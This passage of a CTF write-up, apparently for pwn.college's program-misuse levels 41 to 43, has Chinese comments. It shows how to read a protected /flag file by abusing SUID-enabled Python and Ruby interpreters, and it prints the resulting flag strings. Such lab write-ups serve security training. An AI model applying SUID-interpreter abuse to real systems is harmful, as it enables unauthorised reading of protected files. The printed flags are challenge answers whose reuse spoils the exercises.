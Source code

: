 ```
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").
pwn.college{s8g_u7MkHNRfph-Yrrslj2vzKUJ.01M4EDL2QjMyMzW}
hacker@program-misuse-level-41:~$
```
打印有pen.college的行

## level42 Lets you read the flag because they let you program anything!

```
hacker@program-misuse-level-42:~$ sh file.sh
Welcome to ./babysuid_level42!

This challenge is part of a series of programs that
let you read the flag because they let you program anything.

I just set the SUID bit on /usr/bin/python.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level42) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/python!
```
使用python
```
>>> with open("/flag","r") as f:
...     print(f.read())
...
pwn.college{kTtv9lYtW7yK8dnUSvApk5Yv1s-.0FN4EDL2QjMyMzW}

>>>
```

## level43 Lets you read the flag because they let you program anything!

```
hacker@program-misuse-level-43:~$ sh file.sh
Welcome to ./babysuid_level43!

This challenge is part of a series of programs that
let you read the flag because they let you program anything.

I just set the SUID bit on /usr/bin/ruby.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level43) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/ruby!
```
用ruby写脚本
```
# 打开文件
File.open('/flag', 'r') do |f|
  # 读取文件内容
  content = f.read
  # 输出文件内容
  puts content
end
```
```
hacker@program-misuse-level-43:~$ ruby level43.rb
pwn.college{smGb0PfTvxp0__6HgKHsucNW2Pg.0VN4EDL2QjMyMzW}
hacker@program-misuse-level-43:~$
```
